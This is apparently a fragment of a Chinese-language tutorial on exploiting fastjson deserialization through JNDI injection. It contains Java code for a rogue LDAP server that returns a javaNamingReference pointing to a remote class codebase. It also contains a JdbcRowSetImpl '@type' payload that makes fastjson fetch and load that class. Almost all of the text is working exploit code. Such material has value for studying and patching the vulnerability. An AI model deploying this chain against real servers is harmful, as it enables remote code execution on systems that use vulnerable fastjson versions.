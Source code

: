 ```java
                "listen",
                InetAddress.getByName("0.0.0.0"),
                port,
                ServerSocketFactory.getDefault(),
                SocketFactory.getDefault(),
                (SSLSocketFactory) SSLSocketFactory.getDefault()));

        config.addInMemoryOperationInterceptor(new EvalInMemoryOperationInterceptor());
        InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
        System.out.println("Listening on 0.0.0.0:" + port);
        ds.startListening();
    }

    public static class EvalInMemoryOperationInterceptor extends InMemoryOperationInterceptor {
        @Override
        public void processSearchResult(InMemoryInterceptedSearchResult result) {
            String baseDN = result.getRequest().getBaseDN();
            Entry e = new Entry(baseDN);

            e.addAttribute("javaClassName", javaClassName);
            e.addAttribute("javaFactory", javaClassName);
            e.addAttribute("javaCodeBase", javaCodeBase);
            e.addAttribute("objectClass", "javaNamingReference");

            System.out.println(MessageFormat.format("Send LDAP reference result for {0} redirecting to {1}{2}.class", baseDN, javaCodeBase, javaClassName));
            try {
                result.sendSearchEntry(e);
            } catch (LDAPException ex) {
                ex.printStackTrace();
            }
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }
    }
}
```

Http 服务保持不变

测试代码修改为

```
import com.alibaba.fastjson.JSON;

public class Eval4 {

    public static void main(String[] args) throws Exception {
        String payload = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://127.0.0.1:1389/Exploit\", \"autoCommit\":true}";
        JSON.parse(payload);
    }
}
```
